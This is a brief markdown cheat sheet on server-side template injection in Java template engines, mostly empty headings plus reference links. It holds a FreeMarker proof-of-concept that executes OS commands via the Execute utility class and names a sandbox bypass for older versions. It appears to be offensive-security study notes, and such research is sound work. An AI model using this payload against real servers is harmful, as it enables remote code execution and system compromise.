 # Type
## `FreeMarker`
Templete - upload - insert data - render
 ```
 poc.ftl
 <#assign value = "freemarker.template.utility.Execute"?new()> 
 ${value("cmd")}
 ```
- Bypass
  - below 2.3.29: ProtectionDomain.getClassLoader


 ## `Thymleaf`
 
 ## `Mustache`
 
 ## `Groovy`
 
 ## `Velocity`
 - vm content user controlled 
 
 
## Reports
- [Hacking JasperReports](https://foxglovesecurity.com/2016/10/14/hacking-jasperreports-the-hidden-shell-feature/)

## CVE Analysis

## Reference
- [Exploiting 用户自定义模版引擎](https://www.secpulse.com/archives/73381.html)
